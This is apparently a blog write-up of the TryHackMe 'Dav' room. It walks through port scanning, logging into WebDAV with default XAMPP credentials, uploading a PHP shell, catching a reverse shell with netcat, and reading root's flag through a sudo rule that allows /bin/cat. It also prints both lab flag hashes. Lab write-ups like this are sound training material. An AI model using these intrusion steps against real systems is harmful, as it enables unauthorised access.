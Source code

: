 ```yaml
---
title: "Tryhackme - Dav WriteUp"
date: 2020-10-21
tags: [tryhackme, walkthrough, linux]
header:
  image: "/images/not-found.gif"
excerpt: "Walkthroughs"
---
```



# TryHackMe - Dav WriteUp

**Keywords**: webdav, cadaver, cat priv. esc., sudoers priv. esc.

## Information Gathering


### nmap

```
root@kali:~/TryHackMe# nmap -sV -p 80 --script vuln 10.10.70.119
...
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|_  /webdav/: Potentially interesting folder (401 Unauthorized)
...

```

### gobuster

```
root@kali:~/TryHackMe# gobuster dir -u http://10.10.70.119/ -w /usr/share/wordlists/dirb/common.txt -x .php,.html,.txt
...
/webdav (Status: 401)
```


## Enumeration

Webdav default credentials: http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html

- The WebDAV plugin for the Apache server included with XAMPP version 1.7.3 or lower is enabled by default
- user: wampp
- pass: xampp

**Login to the XAMPP server's WebDAV folder**:

```
cadevar http://$IP/webdav/
```

_cadaver - A command-line WebDAV client for Unix._

**Upload a file to XAMPP server's WebDAV folder**:

```
put /file/
```

**Browse a file in XAMPP server's WebDAV folder**:

```
load http://$IP/webdav/file
```

### cadaver

```
root@kali:~/TryHackMe# cadaver http://10.10.70.119/webdav
Authentication required for webdav on server `10.10.70.119':
Username: wampp
Password: xampp
dav:/webdav/> 
```


## Exploit

```
dav:/webdav/> put shell.php 
Uploading shell.php to `/webdav/shell.php':
Progress: [=============================>] 100.0% of 5493 bytes succeeded.
dav:/webdav/> 
```

```
root@kali:~/TryHackMe# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.11.19.26] from (UNKNOWN) [10.10.70.119] 39456
...
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@ubuntu:/$ 
```

## Privilege Escalation


**user.txt**

```
www-data@ubuntu:/$ cd /home/
www-data@ubuntu:/home$ ls
merlin  wampp
www-data@ubuntu:/home$ cd merlin
www-data@ubuntu:/home/merlin$ ls -la
ls -la
total 44
drwxr-xr-x 4 merlin merlin 4096 Aug 25  2019 .
drwxr-xr-x 4 root   root   4096 Aug 25  2019 ..
-rw------- 1 merlin merlin 2377 Aug 25  2019 .bash_history
-rw-r--r-- 1 merlin merlin  220 Aug 25  2019 .bash_logout
-rw-r--r-- 1 merlin merlin 3771 Aug 25  2019 .bashrc
drwx------ 2 merlin merlin 4096 Aug 25  2019 .cache
-rw------- 1 merlin merlin   68 Aug 25  2019 .lesshst
drwxrwxr-x 2 merlin merlin 4096 Aug 25  2019 .nano
-rw-r--r-- 1 merlin merlin  655 Aug 25  2019 .profile
-rw-r--r-- 1 merlin merlin    0 Aug 25  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root   root    183 Aug 25  2019 .wget-hsts
-rw-rw-r-- 1 merlin merlin   33 Aug 25  2019 user.txt
www-data@ubuntu:/home/merlin$ cat user.txt
cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

**root.txt**

```
www-data@ubuntu:/home/merlin$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
www-data@ubuntu:/home/merlin$ sudo /bin/cat /root/root.txt
sudo /bin/cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```